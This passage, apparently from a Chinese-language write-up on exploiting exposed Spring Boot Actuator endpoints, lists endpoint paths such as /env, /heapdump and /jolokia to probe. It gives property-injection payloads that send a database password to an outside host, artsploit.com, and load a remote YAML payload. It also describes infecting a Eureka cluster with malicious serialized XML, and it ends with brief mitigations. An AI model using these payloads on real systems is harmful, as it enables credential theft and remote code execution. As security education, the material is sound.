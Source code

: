 `/actuator/scheduledtasks`

`/actuator/httptrace`

`/actuator/mappings`

`/actuator/jolokia`

`/actuator/hystrix.stream`

`/monitor`

`/monitor/auditevents`

`/monitor/beans`

`/monitor/health`

`/monitor/conditions`

`/monitor/configprops`

`/monitor/env`

`/monitor/info`

`/monitor/loggers`

`/monitor/heapdump`

`/monitor/threaddump`

`/monitor/metrics`

`/monitor/scheduledtasks`

`/monitor/httptrace`

`/monitor/mappings`

`/monitor/jolokia`

`/monitor/hystrix.stream`

这里通过 `/env` + `/refresh` 进行rce应该还有其他利用手法, 当spring boot reload的时候会进行一些默认操作，里面就有操作空间, 很像fastjson反序列化。

2.就算实在不能RCE, 这里也有个技巧可以偷取 Spring 配置文件中的加密字段, 偷一下生产环境的密码/key也ok

`eureka.client.serviceUrl.defaultZone=http://${somedb.pasword}@127.0.0.1:5000`

`spring.cloud.bootstrap.location=http://${somedb.password}@artsploit.com/yaml-payload.yml`

3.尤其是使用spring eureka做集群的时候, 通常拿到一台服务器, 就可以传递恶意注册到其他server, 从而感染整个微服务集群eureka 通常是 server 也是 client, 无论对方请求什么都直接返回恶意序列化xml就可以了

**8.** **防护方法**

1.及时更新补丁

2.开启Spring Boot Actuators权限校验

3.前置WAF进行防护  

  

8  
